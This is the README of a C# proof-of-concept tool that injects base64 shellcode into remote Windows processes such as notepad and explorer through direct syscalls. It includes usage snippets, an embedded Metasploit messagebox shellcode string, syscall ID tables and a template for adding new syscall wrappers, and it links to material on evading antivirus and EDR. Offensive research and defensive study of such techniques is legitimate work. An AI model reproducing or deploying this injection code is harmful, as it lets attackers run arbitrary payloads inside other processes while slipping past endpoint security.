 # directInjectorPOC

Small program written in C#, compatible with .NET >= v3.5 . Only x64. Works from ws 2008 up to the latest windows 10 update. 

Created as a way to learn more about direct syscalls and their implementation in C#. 

The program uses direct syscalls to perform the shellcode allocating/injection and the remote thread creation. The only imports are GetSystemInfo, RtlGetVersion and VirtualProtectEx.

The shellcode can be easily generated using tools like donut (https://github.com/TheWover/donut/)

### Usage: 

By default the program injects into "notepad" using the ALLOCWRITE write method. This can be easily modified by changing line 18 
```
Inject("notepad", osV, ALLOCWRITE);
```
can be changed to 
```
Inject("explorer", osV, OPENSEC);
```
to inject the shellcode into explorer.exe using the NtMapViewOfSection method. 

The shellcode must be in base64 and assigned to the "s" variable on line 91
```
//msf messagebox x64
string s = @"/EiB5PD////o0AAAAEFRQVBSUVZIMdJlSItSYD5Ii1IYPkiLUiA+SItyUD5ID7dKSk0xyUgxwKw8YXwCLCBBwckNQQHB4u1SQVE+SItSID6LQjxIAdA+i4CIAAAASIXAdG9IAdBQPotIGD5Ei0AgSQHQ41xI/8k+QYs0iEgB1k0xyUgxwKxBwckNQQHBOOB18T5MA0wkCEU50XXWWD5Ei0AkSQHQZj5BiwxIPkSLQBxJAdA+QYsEiEgB0EFYQVheWVpBWEFZQVpIg+wgQVL/4FhBWVo+SIsS6Un///9dScfBAAAAAD5IjZX+AAAAPkyNhQMBAABIMclBukWDVgf/1UgxyUG68LWiVv/VZ2F0bwBNZXNzYWdlQm94AA==";
```

### Dev:

Take a look at syscalls.cs. To create a new syscall:
- Add the syscall ID to each windows version inside the sysDic dictionary.  
- Create its function delegate inside the Delegates struct
- Create a function thar runs GetDelegateForFunctionPointer and invokes the delegate functions (you can just copy paste any of the current ones and change them a little bit to adjust your needs) 
- If needed, create the required structs inside nativeStructs.cs

For example, if we would like to implement NtClose we can do the following:
```
...
            { "win10-1507", new Dictionary<string, byte>()
                {
                    { "openprocess",0x26},
                    { "allocatevirtualmem", 0x18},
                    { "writevirtualmem", 0x3A},
                    { "createremthread", 0xB3},
                    { "createsection", 0x4A },
                    { "mapviewofsec", 0x28 },
                    { "close", 0x0F }
                }
            },
...
```
```
public struct Delegates{
...
            [SuppressUnmanagedCodeSecurity]
            [UnmanagedFunctionPointer(CallingConvention.Cdecl)]
            public delegate int NtClose(IntPtr handler);
...
```
```
        public static NTSTATUS NtClose(IntPtr handle, string os)
        {
            byte[] syscall = syscallSkeleton;
            syscall[4] = sysDic[os]["close"];

            unsafe
            {
                fixed (byte* ptr = syscall)
                {

                    IntPtr memoryAddress = (IntPtr)ptr;

                    if (!VirtualProtectEx(Process.GetCurrentProcess().Handle, memoryAddress,
                        (UIntPtr)syscall.Length, 0x40, out uint oldprotect))
                    {
                        throw new Win32Exception();
                    }

                    Delegates.NtClose myAssemblyFunction = (Delegates.NtClose)Marshal.GetDelegateForFunctionPointer(memoryAddress, typeof(Delegates.NtClose));

                    return (NTSTATUS)myAssemblyFunction(handle);
                }
            }
        }
```

##### ToDo:

  - Implement more ways to write our shellcode in a remote process (process hollowing, dll hollowing, etc)
  - New execution methods (steal them from pinjectra :) )
  - Try to avoid the use of VirtualProtectEx when allocating our shellcode
  - Try catch everything just in case

  
##### Links of interest:

  - https://ired.team/offensive-security/code-injection-process-injection/ntcreatesection-+-ntmapviewofsection-code-injection
  - https://ired.team/offensive-security/code-injection-process-injection/process-injection
  - https://github.com/TheWover/donut/
  - https://github.com/b4rtik/SharpMiniDump/
  - https://github.com/outflanknl/Dumpert (tool)  https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/ (blog)


